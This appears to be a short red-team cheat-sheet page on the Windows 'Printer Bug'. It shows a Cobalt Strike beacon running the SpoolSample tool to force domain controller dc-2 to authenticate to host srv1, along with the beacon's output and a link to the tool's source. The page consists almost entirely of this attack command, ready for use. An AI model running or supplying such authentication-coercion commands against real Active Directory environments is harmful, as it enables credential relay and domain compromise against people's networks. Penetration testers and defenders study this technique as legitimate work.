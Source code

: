 
## [[Vulnerabilities/Printer Bug]] [[Kerberos/Printer Bug]]
``````beacon
beacon> execute-assembly C:\Tools\SpoolSample\SpoolSample\bin\Debug\SpoolSample.exe dc-2 srv1

[+] Converted DLL to shellcode
[+] Executing RDI
[+] Calling exported function
``````


```meta
requirements: 
results: 
oss: #win
source: https://github.com/leechristensen/SpoolSample
description: 
undetected: 
```
